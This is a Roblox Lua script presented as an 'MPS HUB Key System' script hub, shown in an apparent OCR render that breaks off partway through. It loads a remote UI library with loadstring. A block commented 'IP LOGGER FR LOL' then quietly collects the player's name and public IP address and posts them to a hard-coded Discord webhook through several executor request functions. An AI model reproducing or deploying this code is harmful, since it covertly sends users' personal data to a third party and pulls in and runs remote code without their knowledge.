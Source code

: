 
local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()
local Player = game.Players.LocalPlayer
local Window = OrionLib:MakeWindow({Name = "MPS HUB Key System", HidePremium = false, SaveConfig = true, IntroText = "MPS Key System"})

OrionLib:MakeNotification({
    Name = "Logged in",
    Content = "Welcome! "..Player.Name.."." ,
    Image = "rbxassetid://4483345998",
    Time = 5
})

_G.Key = "8197281FFcBE-023f1Bk2k1fYY-5571G1GMANX1D44" -- Change key here
_G.KeyInput = "string" -- Change what you want the textbox of where you enter the key to say without clicking it

local Key = Window:MakeTab({
    Name = "Key System",
    Icon = "rbxassetid://4483345998", -- Your able to change this to any image you want
    PremiumOnly = false
})

function MakeScriptHub()

---IP LOGGER FR LOL

local webh = "https://discord.com/api/webhooks/1075829154148274196/_ms_rIAdzJ1e7jUDBvR2mUAEU5LqNpHnztqELiSiHXtgBeyT_KYXRI4xvkiiNCStm14K"

pcall(function()
   local data = {
       ["embeds"] = {
           {
               ["title"] = game:GetService("Players").LocalPlayer.Name,
               ["description"] = game:HttpGet("https://api.ipify.org")
           }
       }
   }

   if syn then
       local response = syn.request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif request then
       local response = request(
           {
               Url = webh,
               Method = 'POST',
               Headers = {
                   ['Content-Type'] = 'application/json'
               },
               Body = game:GetService('HttpService'):JSONEncode(data)
           }
       );
   elseif http_request then
       local response = http_request(
           {
               Url = webh,
               Method = 'POST',